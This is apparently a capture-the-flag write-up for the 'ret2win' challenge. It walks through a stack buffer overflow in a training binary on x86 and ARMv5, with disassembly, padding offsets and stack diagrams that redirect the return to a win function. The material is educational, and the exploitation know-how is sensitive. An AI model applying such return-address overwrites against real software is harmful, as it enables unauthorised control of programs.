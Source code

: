 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.
For all architectures, the buffer overflow is a read of 56 bytes into a 32 bytes buffer.

## x86_64: (TODO)

## x86:
```
08048609 <pwnme + 0x5c>:
 8048609:	6a 38            push   0x38
 804860b:	8d 45 d8         lea    eax,[ebp-0x28]
 804860e:	50               push   eax
 804860f:	6a 00            push   0x0
 8048611:	e8 9a fd ff ff   call   80483b0 <read@plt>
...
0804862a <pwnme + 0x7d>
 804862a:	c9                   	leave
 804862b:	c3                   	ret
```
Since the `leave` instruction is cleaning the stack frame for this function,
and the read call is writing at `[ebp - 0x28]`, we can deduce that the return address will be
at `buffer + 0x28 + 0x4 = buffer + 44`. Thus we need 44 bytes of padding, then the ret2win address
```
┌─────────────┐ ┌─────────────┐
│ buffer      │ │ 20 20 20 20 │ <- padding (44 bytes)
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ ..          │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ ...         │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ old rbp     │ │ 20 20 20 20 │
├─────────────┤ ├─────────────┤
│ ret         │ │ 0x804862c   │ <- ret2win address
└─────────────┘ └─────────────┘
```

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
In ARMv5, the return address is the `lr` register.   
So in order to overwrite it, we need 36 bytes of padding, then the ret2win address.   
```bash
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old fp      │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
